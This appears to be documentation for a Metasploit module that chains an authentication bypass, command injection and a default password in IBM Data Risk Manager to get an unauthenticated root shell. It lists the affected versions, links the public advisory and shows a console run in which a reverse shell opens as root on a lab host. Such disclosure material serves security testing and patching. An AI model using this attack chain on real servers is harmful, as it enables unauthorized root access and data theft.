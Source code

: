 ## Vulnerable Application

IBM Data Risk Manager (IDRM) contains three vulnerabilities that can be chained by an unauthenticated attacker to achieve remote code execution as root.
The first is an unauthenticated bypass, followed by a command injection as the server user, and finally abuse of an insecure default password.
This module exploits all three vulnerabilities, giving the attacker a root shell.
At the time of disclosure this was an 0day, but it was later confirmed and patched by IBM. The authentication bypass works on versions <= 2.0.6.1,
but the command injection should only work on versions <= 2.0.4 according to IBM.


### Vulnerability information
For more information about the vulnerability check the advisory at:
https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm\_drm/ibm\_drm\_rce.md

### Setup

The application is available to download as a Linux virtual appliance from IBM's website. You need to have a valid IBM contract to be able to do so.

## Verification Steps

Module defaults work very well, you should just need to set `RHOSTS` and `LHOST`.

## Scenarios


## Scenarios

A successful exploit will look like this:


```
msf exploit(linux/http/ibm_drm_unauth_rce) > run

[*] Started reverse TCP handler on 10.9.8.1:4444
[+] 10.9.8.213:8443 - Successfully "stickied" our session ID JQElTQxh
[+] 10.9.8.213:8443 - We have obtained a new admin password 28010e88-6ffb-46e9-90d6-2ded732120d1
[+] 10.9.8.213:8443 - ... and are authenticated as an admin!
[*] 10.9.8.213:8443 - Detected IBM Data Risk Manager version 2.0.2 or above
[+] 10.9.8.213:8443 - We have uploaded our payload...
[+] 10.9.8.213:8443 - and our nmap script file!
[+] 10.9.8.213:8443 - Bearer token 1b78100c-cf42-47fd-b64d-d36c07f1f934 obtained, wait for the final step where we invoke nmap...
[+] 10.9.8.213:8443 - Shell incoming!
[*] Command shell session 2 opened (10.9.8.1:4444 -> 10.9.8.213:57136) at 2020-04-21 15:46:29 +0700

whoami
root
uname -a
Linux idrm-server.ibm.com 3.10.0-862.3.2.el7.x86_64 #1 SMP Tue May 15 18:22:15 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
```

